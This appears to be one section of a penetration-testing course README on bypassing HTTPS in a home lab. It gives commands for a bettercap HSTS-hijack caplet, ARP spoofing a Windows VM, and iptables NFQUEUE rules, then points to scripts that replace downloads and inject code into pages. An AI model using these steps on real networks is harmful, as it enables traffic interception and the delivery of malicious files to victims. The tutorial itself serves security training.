 # Section 10: Bypassing HTTPS

First, fix permissions of virtual network adapter as documented in [VMWare KB](https://kb.vmware.com/s/article/287).
Quick fix:
```bash
chmod a+rw /dev/vmnet*
```

To enable `SSLstrip` successor `bettercap`, type following in Kali machine:
```bash
bettercap -iface eth0 -caplet hstshijack/hstshijack
```

Next enable `arp_spoof` from section-5, as HTTPS downgrade is executed against Windows VM.

Enable NF queue in Kali machine:
```shell
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Now you can run `replace_downloads` or `code_injector`.

## NOTES

* `replace_downloads` script uses port 8080 comparing to original script.
* `code_injector` script uses port 8080 and downgrades HTTP to 1.0 comparing to original script.
* Remove NF queue when done:
    ```shell
    iptables --flush
    ```